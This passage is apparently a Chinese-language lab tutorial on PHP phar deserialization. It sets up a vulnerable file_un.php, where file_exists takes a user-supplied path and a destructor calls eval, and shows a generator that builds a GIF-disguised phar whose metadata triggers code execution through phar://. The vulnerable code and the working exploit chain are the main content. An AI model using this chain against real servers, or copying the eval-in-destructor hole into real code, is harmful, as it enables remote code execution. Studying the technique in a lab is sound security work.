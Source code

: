 ```
?>
```

upload_file.html:

```
<!DOCTYPE html>
<html>
<title>
    <meta charset="utf-8">
    <title>phar</title>
</title>
<body>
    <form action="http://127.0.0.1/php_serialize/leak/upload_file.php" methon="post" enctype="multipart/form-data">
        <input type="file" name="file"/>
        <input type="submit" name="Upload"/>
    </form>
</body>
</html>
```

file_un.php:

```
<?php
    $filename=$_GET['filename'];

    class AnyClass {
        var $output = 'echo "ok";';

        function __destruct() {
            eval($this -> output);
        }
    }

    file_exists($filename);
?>
```

##### 实现过程

首先是根据file_un.php写一个生成phar的php文件，当然需要绕过gif，所以需要加``GIF89a``，然后我们访问这个php文件后，生成了``phar.phar``，修改后缀为``gif``，上传到服务器，然后利用file_exists，使用``phar://``执行代码。

##### 构造payload

eval.php:

```
<?php
	class AnyClass {
		var $output = 'echo "ok";';
		
		function __destruct() {
			eval($this -> output);
		}
	}
	
	$phar = new Phar('phar.phar');
	$phar->stopBuffering();
	$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
	$phar->addFromString('test.txt', 'test');
	$object = new AnyClass();
	$object->output='phpinfo();';
	$phar->setMetadata($object);
	$phar->stopBuffering();
```